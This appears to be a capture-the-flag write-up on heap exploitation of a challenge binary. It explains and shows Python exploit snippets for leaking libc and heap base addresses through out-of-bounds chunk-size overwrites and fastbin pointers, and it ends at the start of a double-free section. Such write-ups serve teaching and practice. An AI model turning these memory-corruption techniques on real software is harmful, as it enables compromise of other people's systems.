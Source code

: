 ## Analyze & Exploit
<br />

### Leak libc's address
- To leak the libc_base address, we use the first OOB vulnerability. <br />
- We can overwrite next chunk's size more bigger, and if we free it, it can go to unsortedbin chunk.
- If we allocate heap memory size lower than unsortedbin chunk's size, it will be slice, and main_arena's address is left at new sliced chunk.
- We can leak them by check function.
<br />

```python
new(0x68, b'A'*0x68, b'0'*0x8)
new(0x68, b'A'*0x68, b'1'*0x8)
new(0x68, b'A'*0x68, b'2'*0x8)
new(0x68, b'A'*0x68, b'3'*0x8)
delete(0)
pause()
new(0x68, b'A'*0x68+b'\xe1', b'0'*0x8)
pause()
delete(1)
pause()
new(0x68, b'A', b'1'*0x8)
pause()
check()
r.recvuntil(b'2. 22222222 --> ')
libc_base = u64(r.recvn(6)+b'\x00'*2) - 0x3b4bc0
print(hex(libc_base))
```
<br />

### Leak heap's address
- Leaking the heap_base is simple. If there are more than two chunks in one fastbin index, the heap address is stored in the chunk.
- If we allocate that chunk, we can leak heap address.
<br />

```python
new(0x68, b'A'*0x8, b'4'*0x8)
new(0x68, b'B'*0x8, b'5'*0x8)
delete(5)
delete(4)
new(0x68, b'A', b'4'*0x8)
check()
r.recvuntil(b'4. 44444444 --> ')
heap_base = u64(r.recvn(6)+b'\x00'*2) & 0xfffffffff000
print(hex(heap_base))
```
<br />

### Double free
- The libc version is old and there's no tcache, so we can easily perform a double free.
- We can use second OOB, and make same two address in memory, free it.
<br />
